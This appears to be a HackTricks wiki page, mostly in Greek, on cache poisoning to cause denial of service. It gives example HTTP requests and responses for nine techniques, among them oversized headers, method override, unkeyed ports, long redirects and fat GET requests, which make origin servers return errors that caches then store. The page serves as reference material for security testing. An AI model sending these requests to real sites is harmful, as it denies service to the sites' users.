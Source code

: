 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Σε αυτή τη σελίδα μπορείτε να βρείτε διάφορες παραλλαγές για να προσπαθήσετε να κάνετε τον **web server να απαντήσει με σφάλματα** σε αιτήματα που είναι **έγκυρα για τους cache servers**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Στείλτε ένα αίτημα με μέγεθος κεφαλίδας μεγαλύτερο από αυτό που υποστηρίζει ο web server αλλά μικρότερο από αυτό που υποστηρίζει ο cache server. Ο web server θα απαντήσει με μια 400 απάντηση που μπορεί να αποθηκευτεί στην cache:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Unexpected values**

Στείλτε μια κεφαλίδα που περιέχει μερικούς **καταστροφικούς μετα-χαρακτήρες** όπως `\n` και `\r`. Για να λειτουργήσει η επίθεση, πρέπει πρώτα να παρακάμψετε την κρυφή μνήμη.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Ένας κακώς διαμορφωμένος τίτλος θα μπορούσε να είναι απλώς `\:` ως τίτλος.

Αυτό θα μπορούσε επίσης να λειτουργήσει αν σταλούν απροσδόκητες τιμές, όπως μια απροσδόκητη Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

Ορισμένες ιστοσελίδες θα επιστρέψουν έναν κωδικό κατάστασης σφάλματος αν **δουν ορισμένα συγκεκριμένα headers** στην αίτηση όπως με το _X-Amz-Website-Location-Redirect: someThing_ header:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Αν ο διακομιστής υποστηρίζει την αλλαγή της μεθόδου HTTP με κεφαλίδες όπως `X-HTTP-Method-Override`, `X-HTTP-Method` ή `X-Method-Override`. Είναι δυνατόν να ζητηθεί μια έγκυρη σελίδα αλλάζοντας τη μέθοδο έτσι ώστε ο διακομιστής να μην την υποστηρίζει, με αποτέλεσμα μια κακή απάντηση να αποθηκευτεί στην κρυφή μνήμη:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

Αν η θύρα στην κεφαλίδα Host αντικατοπτρίζεται στην απόκριση και δεν περιλαμβάνεται στο κλειδί της cache, είναι δυνατόν να την ανακατευθύνουμε σε μια μη χρησιμοποιούμενη θύρα:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Όπως στο παρακάτω παράδειγμα, το x δεν αποθηκεύεται στην cache, οπότε ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί τη συμπεριφορά της απόκρισης ανακατεύθυνσης για να κάνει την ανακατεύθυνση να στείλει μια διεύθυνση URL τόσο μεγάλη που να επιστρέφει ένα σφάλμα. Στη συνέχεια, οι άνθρωποι που προσπαθούν να αποκτήσουν πρόσβαση στη διεύθυνση URL χωρίς το uncached x key θα λάβουν την απόκριση σφάλματος:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Κανονικοποίηση πεζών χαρακτήρων της κεφαλίδας host**

Η κεφαλίδα host θα πρέπει να είναι ανεξάρτητη από την περίπτωση, αλλά ορισμένες ιστοσελίδες αναμένουν να είναι σε πεζά γράμματα επιστρέφοντας σφάλμα αν δεν είναι:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Κανονικοποίηση διαδρομής**

Ορισμένες σελίδες θα επιστρέψουν κωδικούς σφάλματος στέλνοντας δεδομένα URLencode στη διαδρομή, ωστόσο, ο διακομιστής cache θα URLdecode τη διαδρομή και θα αποθηκεύσει την απόκριση για τη URLdecoded διαδρομή:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Ορισμένοι διακομιστές cache, όπως η Cloudflare, ή διακομιστές ιστού, σταματούν τα GET αιτήματα με σώμα, οπότε αυτό θα μπορούσε να εκμεταλλευτεί για να αποθηκεύσει μια μη έγκυρη απάντηση:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Αναφορές

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
